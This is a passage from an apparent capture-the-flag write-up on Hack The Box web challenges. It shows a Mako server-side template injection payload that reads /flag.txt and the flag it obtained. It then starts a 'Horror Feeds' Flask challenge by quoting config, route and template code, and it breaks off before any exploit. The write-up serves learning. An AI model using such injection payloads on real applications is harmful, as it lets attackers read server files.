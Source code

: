 Since it works and I know it's Mako, I ran `${open("/flag.txt").read()}`.

![](/uploads/{{ page.permalink }}/ss11.png)

That's about it!

`HTB{t3mp14t3_1nj3ct10n_1s_$p00ky!!}`

# Day 3: Horror Feeds

> An unknown entity has taken over every screen worldwide and is broadcasting this haunted feed that introduces paranormal activity to random internet-accessible CCTV devices. Could you take down this streaming service?
> 
> 🐳 *Spawn Docker*
> 
> 📦 *Download Files*

Another day... another Flask app?

![](/uploads/{{ page.permalink }}/ss12.png)

I don't know, but today seems kinda odd... This time the app does return the flag.

![](/uploads/{{ page.permalink }}/ss13.png)

The flag is read and stored in the config:

```py
class Config(object):
    SECRET_KEY = generate(50)
    MYSQL_HOST = 'localhost'
    MYSQL_USER = 'user'
    MYSQL_PASSWORD = 'M@k3l@R!d3s$'
    MYSQL_DB = 'horror_feeds'
    FLAG = open('/flag.txt').read()
```

Then it's passed to `render_template`

```py
@web.route('/dashboard')
@is_authenticated
def dashboard():
    current_user = token_verify(session.get('auth'))
    return render_template('dashboard.html', flag=current_app.config['FLAG'], user=current_user.get('username'))
```

And finally, it's displayed on `/dashboard`:

```html
<tr class="table-active">
    <th>
        <input class="form-check-input fw-cam-radio" type="checkbox" checked disabled>
    </th>
    <td>5</td>
    <td>192.251.68.6</td>
    <td>NV360</td>
    <td>{% raw %}{{flag}}{% endraw %}</td>
    <td></td>
    <td></td>
    <td>admin</td>
    <td>80</td>
    <td>21</td>
    <td>23</td>
    <td></td>
    </tr>
```
